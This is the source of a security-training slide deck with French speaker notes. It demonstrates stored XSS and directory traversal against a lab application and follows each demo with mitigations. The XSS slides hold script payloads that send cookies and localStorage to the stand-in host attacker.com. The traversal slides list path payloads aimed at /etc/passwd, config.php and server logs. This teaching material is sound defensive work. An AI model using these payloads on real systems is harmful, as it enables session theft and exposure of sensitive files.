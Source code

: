 ```yaml
---
layout: section
---
```


# Live Demonstrations

<div class="slide-number">
  <SlideCurrentNo />/<SlideTotalNo />
</div>

---
layout: default
---

# Stored XSS Attack

<div class="grid grid-cols-2 gap-8">
  <div>
    <h3 class="uppercase text-gray-400 tracking-wider mb-4">Advanced Payload</h3>

```js
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', '<http://attacker.com/?cookie=>' 
            + document.cookie);
  xhr.send();

  document.body.style.backgroundColor = 'red';
  alert('XSS Démonstration');
</script>
```
  </div>

  <div>
    <h3 class="uppercase text-gray-400 tracking-wider mb-4">Attack Process</h3>
    <div class="space-y-4">
      <p>1. Navigate to "Stored XSS Blog"</p>
      <p>2. Post a normal message first</p>
      <p>3. Submit XSS payload</p>
      <p>4. Observe execution on each visit</p>
    </div>
  </div>
</div>

<div class="slide-number">
  <SlideCurrentNo />/<SlideTotalNo />
</div>

<!--
### Description

Le XSS stocké est une vulnérabilité où du code malveillant est stocké dans la base de données et exécuté à chaque fois qu'un utilisateur visite la page affectée.

### Étapes de la démonstration

1. **Accès à la vulnérabilité**
    - Naviguer vers "Cross-Site Scripting - Stored (Blog)"
    - Observer l'interface du blog
2. **Test de fonctionnement normal**
    
    ```
    Message : Hello World!
    
    ```
    
    - Le message s'affiche normalement
    - Montrer qu'il est stocké en rafraîchissant la page
3. **Exploitation**
    
    ```jsx
    <script>
      // Vol de cookies
      var xhr = new XMLHttpRequest();
      xhr.open('GET', '<http://attacker.com/?cookie=>' + document.cookie);
      xhr.send();
    
      // Effet visuel pour la démo
      document.body.style.backgroundColor = 'red';
      alert('XSS Démonstration');
    </script>
    
    ```
    
    ```jsx
    <script>
      // Récupérer les données de l'utilisateur
      var userData = {
        url: window.location.href,
        userAgent: navigator.userAgent,
        cookies: document.cookie,
        localStorage: JSON.stringify(localStorage),
        screenRes: `${window.screen.width}x${window.screen.height}`
      };
    
      // Afficher les informations volées
      alert("🚨 Données sensibles exposées:\n\n" + 
            "📍 URL: " + userData.url + "\n\n" + 
            "🔍 User-Agent: " + userData.userAgent + "\n\n" +
            "🍪 Cookies: " + userData.cookies + "\n\n" +
            "💾 LocalStorage: " + userData.localStorage + "\n\n" +
            "📱 Résolution: " + userData.screenRes);
    
      // Simuler l'envoi à un serveur malveillant
      var xhr = new XMLHttpRequest();
      xhr.open('GET', 'http://attacker.com/steal?' + new URLSearchParams(userData));
      xhr.send();
    
      // Effet visuel
      document.body.style.backgroundColor = 'red';
      document.body.innerHTML = '<h1 style="color:white;text-align:center;margin-top:50px">🚨 Votre système a été compromis 🚨</h1>';
    </script>
    ```
    

### Impacts potentiels

- Vol de session utilisateur
- Modification du contenu de la page
- Exécution de code arbitraire
- Redirection des utilisateurs
- Vol de données sensibles

### Mesures de protection

1. **Validation des entrées**
    - Filtrer les caractères spéciaux
    - Utiliser des listes blanches
2. **Échappement des sorties**
    
    ```php
    htmlspecialchars($userInput, ENT_QUOTES, 'UTF-8');
    
    ```
    
3. **Headers de sécurité**
    
    ```
    Content-Security-Policy: default-src 'self'
    X-XSS-Protection: 1; mode=block
    
    ```
-->

---
layout: default
---

# Directory Traversal

<div class="grid grid-cols-2 gap-8">
  <div>
    <h3 class="uppercase text-gray-400 tracking-wider mb-4">Target Files</h3>

```bash
# System Files
../../../etc/passwd
../../../etc/hosts
../../../etc/hostname

# Application Files
../../../var/www/html/config.php
../../../var/log/apache2/access.log
../../../etc/apache2/apache2.conf
```

  </div>

  <div>
    <h3 class="uppercase text-gray-400 tracking-wider mb-4">Exploitation Steps</h3>
    <div class="space-y-4">
      <p>1. Access "Directory Traversal - Files"</p>
      <p>2. Test normal file access</p>
      <p>3. Use path traversal sequences</p>
      <p>4. Access sensitive files</p>
    </div>
  </div>
</div>

<div class="slide-number">
  <SlideCurrentNo />/<SlideTotalNo />
</div>

<!--
## Démo 2 : Directory Traversal

### Description

Le Directory Traversal permet à un attaquant d'accéder à des fichiers en dehors du répertoire web prévu, en utilisant des séquences comme "../" pour naviguer dans l'arborescence.

### Étapes de la démonstration

1. **Accès à la vulnérabilité**
    - Naviguer vers "Directory Traversal - Files"
    - Observer le comportement normal avec les fichiers autorisés
2. **Test de fichiers système**
    
    ```
    # Test basique
    ../../../etc/passwd
    
    # Version encodée URL
    ..%2F..%2F..%2Fetc%2Fpasswd
    
    # Autres fichiers intéressants
    ../../../etc/hosts
    ../../../etc/apache2/apache2.conf
    ../../../var/log/apache2/access.log
    ../../../var/www/html/config.php
    
    ```
    
3. **Analyse des résultats**
    - Observer le contenu des fichiers accessibles
    - Noter les permissions et les informations exposées
    - Identifier les risques potentiels

### Fichiers intéressants à explorer

1. **Fichiers système**
    - /etc/passwd (utilisateurs)
    - /etc/hosts (configuration réseau)
    - /etc/hostname
2. **Logs**
    - /var/log/apache2/access.log
    - /var/log/apache2/error.log
3. **Configuration**
    - /var/www/html/config.php
    - /etc/apache2/apache2.conf
    - /etc/php/php.ini

### Impacts potentiels

- Accès aux fichiers de configuration
- Fuite d'informations sensibles
- Exposition des logs système
- Divulgation de mots de passe/clés
- Cartographie du système

### Mesures de protection

1. **Validation des chemins**
    
    ```php
    // Vérifier le chemin final
    $finalPath = realpath($userInput);
    if (strpos($finalPath, '/var/www/allowed') !== 0) {
        die('Accès interdit');
    }
    
    ```
    
2. **Restrictions d'accès**
    - Utiliser chroot
    - Limiter les permissions
    - Implémenter des listes blanches
3. **Configuration serveur**
    
    ```
    <Directory />
        Options -Indexes
        AllowOverride None
        Order allow,deny
        Deny from all
    </Directory>
    
    ```
    

### Bonnes pratiques générales

1. **Principe du moindre privilège**
    - Limiter les permissions des utilisateurs
    - Séparer les environnements
2. **Surveillance et logging**
    - Activer les logs détaillés
    - Monitorer les accès suspects
3. **Sécurité en profondeur**
    - Validations multiples
    - Contrôles à différents niveaux
-->

---
layout: default
---

# Security Impact

<div class="grid grid-cols-2 gap-8">
  <div class="bg-red-50/20 p-6 rounded-lg">
    <h3 class="font-bold mb-4">XSS Impact</h3>
    <div class="space-y-2">
      <p>• Session hijacking</p>
      <p>• Data theft</p>
      <p>• Page defacement</p>
      <p>• Malicious redirects</p>
    </div>
  </div>

  <div class="bg-blue-50/20 p-6 rounded-lg">
    <h3 class="font-bold mb-4">Directory Traversal Impact</h3>
    <div class="space-y-2">
      <p>• Configuration exposure</p>
      <p>• System information leak</p>
      <p>• Sensitive data access</p>
      <p>• Log file disclosure</p>
    </div>
  </div>
</div>

<div class="slide-number">
  <SlideCurrentNo />/<SlideTotalNo />
</div>

<!--
Cette slide est essentielle pour résumer l'impact réel des vulnérabilités que nous venons de démontrer.

Du côté du XSS stocké, les conséquences sont particulièrement graves. Le vol de session permet à un attaquant de se connecter en tant que victime. Toutes les données personnelles peuvent être dérobées. La défiguration de page et les redirections malveillantes affectent l'intégrité du site. Le plus dangereux est que ces attaques touchent tous les visiteurs.

Concernant le Directory Traversal, l'impact se situe au niveau de la confidentialité des données. L'accès aux fichiers de configuration expose les paramètres sensibles du serveur. La fuite des logs permet de cartographier le système. Ces informations constituent une base solide pour des attaques plus sophistiquées.

Ces vulnérabilités montrent qu'une simple faille peut compromettre l'ensemble du système. C'est pourquoi il est crucial d'appliquer les bonnes pratiques de sécurité dès la conception de l'application.
-->
